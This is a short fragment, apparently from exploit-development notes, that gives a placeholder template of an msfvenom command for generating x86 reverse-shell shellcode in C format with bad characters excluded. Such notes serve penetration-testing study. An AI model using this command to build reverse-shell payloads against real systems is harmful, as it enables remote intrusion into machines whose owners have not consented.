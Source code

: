 
basic command -> msfvenom -p [path for the type of a shell] LHOST=[ip for the reverse shell] LPORT=[port for the reverse shell] EXITFUN= thread -f c -a x86 -b "[bad characters]"
